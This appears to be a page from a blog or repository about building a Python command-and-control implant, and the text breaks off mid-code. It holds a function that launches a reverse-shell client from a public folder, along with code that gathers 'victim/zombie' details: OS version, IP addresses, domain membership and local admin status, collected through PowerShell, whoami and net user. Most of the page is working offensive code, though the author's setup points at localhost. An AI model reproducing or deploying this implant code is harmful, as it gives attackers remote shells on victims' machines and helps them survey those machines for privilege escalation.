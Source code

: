> reverse shell function

**Use the code I posted here and save it as pyrevshell_client.py:**
**Be sure to edit the ip and port info!!!**

[https://g3tsyst3m.github.io/sockets/Create-your-own-Netcat-using-Python/](https://g3tsyst3m.github.io/sockets/Create-your-own-Netcat-using-Python/)

```python
def startrevshellcli():
    subprocess.call("C:/Users/public/pyrevshell_client.py")
    exit_event.set()
```

> Gather Victim/Zombie Operating System Info

```python
##################################
#Change this to whatever you like.  I'm using 127.0.0.1 because I'm port forwarding to virtualbox
##################################
host="127.0.0.1"
port=4545
breaktheloop=False #LOL, i don't remember what this is used for.  I coded this stuff a year ago... 😺

###################################
#This info below is fairly self-explanatory.  powershell is handy and quite efficient imho for retrieving host, os, and ip/adaptor info!
###################################

OnADomain="False"
LocalAdmin="False"
osinfo=subprocess.run("powershell.exe -command Get-CimInstance Win32_OperatingSystem | Select-Object Caption, Version | findstr Microsoft", capture_output=True, text=True)
osinfo=osinfo.stdout.strip()

try:
    ipaddrinfo=subprocess.run("powershell.exe -command (Get-NetIPAddress -AddressFamily IPv4).IpAddress | findstr /V 169. | findstr /V 127.0.0.1", capture_output=True, text=True)
    ipaddrinfo=ipaddrinfo.stdout.strip()
except:
    ipaddrinfo="No IP addresses active on system"
try:
    ######################
    #Are we on a domain?
    ######################
    domaininfo=subprocess.run("whoami /FQDN", capture_output=True, text=True)
    if "Unable" in domaininfo.stderr:
        OnADomain="False"
        print("[-] NOT domain joined")
    else:
        print("[+] domain joined!")
        OnADomain="True"
except:
    print("[!] unexpected error...")
gathering=subprocess.run("net user " + os.environ.get('USERNAME'), capture_output=True, text=True)

##################################
#Member of admins group?
##################################
if "Administrators" in gathering.stdout:
    print("[+] members of local admins!")
    LocalAdmin="True"

if OnADomain == "True":
```